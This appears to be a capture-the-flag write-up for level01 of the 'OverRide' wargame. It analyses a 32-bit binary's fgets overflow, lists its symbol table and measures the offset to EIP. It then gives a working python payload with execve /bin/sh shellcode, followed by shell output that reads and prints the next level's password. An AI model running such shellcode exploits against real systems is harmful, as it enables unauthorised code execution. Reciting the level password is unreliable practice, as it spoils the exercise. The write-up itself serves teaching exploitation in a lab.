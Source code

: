 # Level01

## Analysis

There is neither a call to `/bin/sh` nor an output of the password in this program, so we will have to use a shellcode, store it somewhere and use a buffer overflow over `EIP` to return on that shellcode.

The program uses 2 calls to `fgets()`:
- `fgets(&a_user_name,0x100,stdin); -> buffer with ample size on a global variable, reading 256 bytes`
- `fgets(local_54,100,stdin);      -> local_54 has a size of 64 and we copy a maximum of 100 bytes to it`

It also compares the first 7 characters of the buffer to check if it contains "dat_wil" in `verify_user_name()`, so we can store whatever we want after the first 7 bytes, for example our shellcode.

## Needed elements

To do that we will need to find the address of our first buffer, since it's a named global, we can use `objdump -D` or `objdump -t`:

```bash
level01@OverRide:~$ objdump -t level01       

level01:     file format elf32-i386

SYMBOL TABLE:
08048154 l    d  .interp	00000000              .interp
08048168 l    d  .note.ABI-tag	00000000              .note.ABI-tag
08048188 l    d  .note.gnu.build-id	00000000              .note.gnu.build-id
080481ac l    d  .gnu.hash	00000000              .gnu.hash
080481d0 l    d  .dynsym	00000000              .dynsym
08048250 l    d  .dynstr	00000000              .dynstr
080482ae l    d  .gnu.version	00000000              .gnu.version
080482c0 l    d  .gnu.version_r	00000000              .gnu.version_r
080482e0 l    d  .rel.dyn	00000000              .rel.dyn
080482f0 l    d  .rel.plt	00000000              .rel.plt
08048318 l    d  .init	00000000              .init
08048350 l    d  .plt	00000000              .plt
080483b0 l    d  .text	00000000              .text
0804866c l    d  .fini	00000000              .fini
08048688 l    d  .rodata	00000000              .rodata
0804873c l    d  .eh_frame_hdr	00000000              .eh_frame_hdr
08048780 l    d  .eh_frame	00000000              .eh_frame
08049f14 l    d  .ctors	00000000              .ctors
08049f1c l    d  .dtors	00000000              .dtors
08049f24 l    d  .jcr	00000000              .jcr
08049f28 l    d  .dynamic	00000000              .dynamic
08049ff0 l    d  .got	00000000              .got
08049ff4 l    d  .got.plt	00000000              .got.plt
0804a014 l    d  .data	00000000              .data
0804a020 l    d  .bss	00000000              .bss
00000000 l    d  .comment	00000000              .comment
00000000 l    df *ABS*	00000000              crtstuff.c
08049f14 l     O .ctors	00000000              __CTOR_LIST__
08049f1c l     O .dtors	00000000              __DTOR_LIST__
08049f24 l     O .jcr	00000000              __JCR_LIST__
080483e0 l     F .text	00000000              __do_global_dtors_aux
0804a024 l     O .bss	00000001              completed.6159
0804a028 l     O .bss	00000004              dtor_idx.6161
08048440 l     F .text	00000000              frame_dummy
00000000 l    df *ABS*	00000000              crtstuff.c
08049f18 l     O .ctors	00000000              __CTOR_END__
08048898 l     O .eh_frame	00000000              __FRAME_END__
08049f24 l     O .jcr	00000000              __JCR_END__
08048640 l     F .text	00000000              __do_global_ctors_aux
00000000 l    df *ABS*	00000000              easy.c
08049f14 l       .ctors	00000000              __init_array_end
08049f28 l     O .dynamic	00000000              _DYNAMIC
08049f14 l       .ctors	00000000              __init_array_start
08049ff4 l     O .got.plt	00000000              _GLOBAL_OFFSET_TABLE_
08048630 g     F .text	00000002              __libc_csu_fini
08048632 g     F .text	00000000              .hidden __i686.get_pc_thunk.bx
0804a014  w      .data	00000000              data_start
00000000       F *UND*	00000000              printf@@GLIBC_2.0
00000000       F *UND*	00000000              fgets@@GLIBC_2.0
0804a01c g       *ABS*	00000000              _edata
0804866c g     F .fini	00000000              _fini
08049f20 g     O .dtors	00000000              .hidden __DTOR_END__
080484a3 g     F .text	0000002d              verify_user_pass
0804a014 g       .data	00000000              __data_start
00000000       F *UND*	00000000              puts@@GLIBC_2.0
00000000  w      *UND*	00000000              __gmon_start__
0804a018 g     O .data	00000000              .hidden __dso_handle
0804868c g     O .rodata	00000004              _IO_stdin_used
00000000       F *UND*	00000000              __libc_start_main@@GLIBC_2.0
080485c0 g     F .text	00000061              __libc_csu_init
0804a020 g     O .bss	00000004              stdin@@GLIBC_2.0
0804a0a4 g       *ABS*	00000000              _end
080483b0 g     F .text	00000000              _start
08048688 g     O .rodata	00000004              _fp_hw
0804a01c g       *ABS*	00000000              __bss_start
080484d0 g     F .text	000000e6              main
00000000  w      *UND*	00000000              _Jv_RegisterClasses
08048464 g     F .text	0000003f              verify_user_name
0804a040 g     O .bss	00000064              a_user_name                   <=========
08048318 g     F .init	00000000              _init
```

`0804a040` this is our target we want to jump on, however since there are the first 7 characters ("dat_wil"), we need to shift the address by 7 bytes -> `0804a047`

After this step, we need to get the offset until we reach `%eip` with the second buffer (passed by our second user input):

```bash
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
aaaabbbbccccddddffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyy
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x76767676 in ?? ()
```

Our offset is then 80 bytes.

## Exploit

No we can craft our payload:

`[dat_wil] + [shellcode] | [80 filler] + [jmp addr]`

<details>
  <summary>spoiler</summary>

  ```bash
  level01@OverRide:~$ python -c "print 'dat_wil' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\n' + 'a'*80 + '\x47\xa0\x04\x08'" > /tmp/test                      
  level01@OverRide:~$ cat /tmp/test - | ./level01 
  ********* ADMIN LOGIN PROMPT *********
  Enter Username: verifying username....

  Enter Password: 
  nope, incorrect password...

  whoami
  level02
  cat /home/users/level02/.pass
  PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
  ```
</details>

